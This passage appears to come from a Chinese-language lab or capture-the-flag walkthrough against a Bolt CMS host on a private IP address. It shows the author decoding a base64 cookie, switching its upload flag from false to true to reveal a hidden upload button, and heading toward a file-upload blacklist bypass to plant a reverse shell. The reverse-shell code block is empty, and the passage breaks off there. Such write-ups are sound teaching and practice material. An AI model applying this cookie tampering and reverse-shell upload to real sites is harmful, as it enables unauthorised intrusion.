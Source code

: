 ```
curl http://192.168.7.213/license.txt
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

提示这是bolt程序，其他目录没什么有用信息，再来看看首页

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

cookie这里发些base64编码后的内容，解一下看看是什么

```
https://base64.us/
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

解码后是开启上传的选项，值是false，将他改为true试试

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

将编码后的内容放到cookie中提交，多次尝试后发现这个cookie是分两段的（这里用hackbarv2)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

### 文件上传黑名单绕过

执行后在页面上出现了上传按钮，上传个反弹shell文件试试

反弹shell代码

```
```
